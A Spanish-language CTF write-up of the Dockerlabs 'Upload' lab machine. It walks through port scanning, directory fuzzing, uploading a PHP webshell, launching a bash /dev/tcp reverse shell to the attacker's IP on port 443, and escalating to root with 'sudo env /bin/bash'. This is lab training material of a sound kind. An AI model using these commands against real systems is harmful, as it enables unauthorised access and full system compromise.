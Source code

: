 # Writeup de la Máquina Upload de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![First nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. En este caso al ser solo un puerto no haria falta. Una vez recojido el puerto le lanzo un escaneo para sacar la versión y el servicio que esta corriendo en el puerto 80.

```bash
extractPorts allPorts
```
```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```
![ExtractPorts and Second nmap](_images/Screenshot_2.png)

Viendo que es un apache2, ejecuto la herramienta whatweb para que me liste las tecnologías que usa la página web.

```bash
whatweb http://172.17.0.2
```

![Whatweb](_images/Screenshot_3.png)

El whatweb no reporta mucha información así que decido mirar la página en el navegador y me encuentro con la página por defecto de apache2.

![Default page](_images/Screenshot_4.png)

Vista la página por defecto decido hacer fuzzing a la web, esto lo hago con la herramienta gobuster.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,js
```

![Gobuster](_images/Screenshot_5.png)

Gobuster reporta una carpeta "/uploads" y un archivo "upload.php".

![Navegador /uploads](_images/Screenshot_6.png)

![Navegador upload.php](_images/Screenshot_7.png)

Al ver que se pueden subir archivos decido subir una webshell con php para ver si ejecuta código. Para esto lo hago un parámetro "cmd" y le digo que ejecute el comando id.

![Navegador Webshell](_images/Screenshot_9.png)

![Navegador Webshell](_images/Screenshot_10.png)

![Navegador Webshell](_images/Screenshot_11.png)

Viendo que se puede ejecutar comandos decido realizar una reverse shell a mi máquina al puerto 443.

```bash
nc -lvp 443
```
![Navegador ReverseShell](_images/Screenshot_12.png)

Este comando en la webshell urlencodeado, ya que sino no funciona.

```bash
bash -i >& /dev/tcp/192.168.13.142/443 0>&1
```
![Codgio Fuente](_images/Screenshot_13.png)

Una vez ejecutada la reverse shell urlencodeada recibo la shell en mi máquina atacante. En esta lo primero que hago es verificar el usuario que tengo (www-data). Una vez visto el usuario miro si puedo ejecutar algún comando/utilidad como root sin autenticarme. En este caso veo que puedo ejecutar env, así que hago una búsqueda en https://gtfobins.github.io/gtfobins/env/#sudo para ver como ejecutar la escalada de privilegios.

![Gtfobins](_images/Screenshot_15.png)

```bash
sudo env /bin/bash
```

Una vez ejecutado el comando consigo escalar privilegios y convertirme en el usuario root!

![Escalada de Privilegios](_images/Screenshot_14.png)